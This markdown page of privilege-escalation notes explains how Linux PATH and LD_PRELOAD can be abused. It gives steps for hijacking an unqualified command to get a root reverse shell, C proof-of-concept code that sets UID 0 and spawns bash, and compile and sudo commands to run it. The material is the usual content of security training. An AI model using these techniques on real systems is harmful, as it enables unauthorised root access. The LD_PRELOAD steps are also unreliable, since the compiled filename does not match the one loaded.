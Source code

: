 # Environment Variables Abuse

## **PATH Abuse**

> **What is the purpose of the PATH variable?**\
>
>
> `$PATH` is an environment variable that **specifies the set of directories where an executable can be located**.
>
> An account's `$PATH` variable is a set of absolute paths, **allowing a user to type a command without specifying the absolute path to the binary**.
>
>
>
> For example, a user can type `cat /tmp/test.txt` instead of specifying the absolute path `/bin/cat /tmp/test.txt`.
>
> Creating a script or program in a directory specified in the `$PATH` will make it executable from any directory on the system.

**Interacting with the PATH variable:**

* Check the contents of the PATH variable: `env | grep PATH` or `echo $PATH`
* Adding `.` to a user's PATH adds their current working directory to the list.
* To add a specific directory at the top of the PATH list: `export PATH=/tmp:$PATH`
* To add the current working directory at the top of the PATH list: `export PATH=.:$PATH`

**Abusing the PATH variable:**

* **Prerequisites:** a program or script running as root and its source code (or part of it)
* **Example Exploitation Steps:**
  * Suppose we can read the source code of a program
  * Suppose the source code reveals that the program makes use of a command or script without specifying its full path
  * e.g. The program uses `echo something` instead of `/usr/bin/echo something`
  * In that case, we can write and compile a C program with the same name as the command/script (`echo`) that gives us a reverse shell
  * After that, edit the PATH variable in order to prepend the exploit's directory on top (`export PATH=/dir-to-exploit:$PATH`)
  * Run the vulnerable program and get the reverse shell as root
* **Explaination:** the program tries to run the echo command, but it needs to look at the PATH variable since the command's full (absolute) path was not specified. The PATH variable's first directory will be the folder containing the exploit code, which will be ran by the program instead of the "real" echo command. The exploit code will be ran using the program's privileges (root), allowing us to escalate privileges

***

## **LD\_PRELOAD Abuse**

> **What is the purpose of the LD\_PRELOAD variable?**
>
> `LD_PRELOAD` is an optional environmental variable containing one or more paths to shared libraries, or shared objects
>
> All shares libraries/objects specified by this variable will be loaded (preloaded) before any other shared library

**Prerequisites to abuse the LD\_PRELOAD variable:**

* Suppose to have a script running as root
* Suppose you can read the source code of that script
* Alternatively, use `ldd /bin/scriptname` in order to view the shared objects required by a binary
* To abuse ld\_preload, you need to write a C code containing the `same signature of a function used by the program`
* This means that:
  * All `#include` statements are the same as the original function's
  * The `return value` needs to be the same as the original function's

**Example PoC code:**

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

**Steps to reproduce the attack:**

1. Identify a target binary and a target function used by it
2. Write a PoC code with the same signature as the original function's (see PoC above)
3. Compile it (as a shared library) using: `gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles`
4. Gain privilege escalation using: `sudo LD_PRELOAD=./pe.so <COMMAND>`
